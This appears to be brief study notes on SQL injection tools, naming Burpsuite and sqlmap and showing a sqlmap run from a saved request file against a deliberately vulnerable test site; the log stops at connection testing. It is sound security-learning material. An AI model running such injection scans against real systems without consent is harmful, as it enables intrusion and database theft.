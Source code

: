 ![image-20211013134722473](images/image-20211013134722473.png)

## SQL Injection Tools

### Semi-Automated

#### Burpsuite

### Automated

#### sqlmap

```
sherwinowen@owenbox:~/my_tools/sqlmap$ python3 sqlmap.py -r request.txt
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.5.10.15#dev}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:20:56 /2021-10-14/

[13:20:56] [INFO] parsing HTTP request from 'request.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] 
[13:21:06] [INFO] testing connection to the target URL
got a 302 redirect to 'http://testphp.vulnweb.com:80/login.php'. Do you want to follow? [Y/n] y
```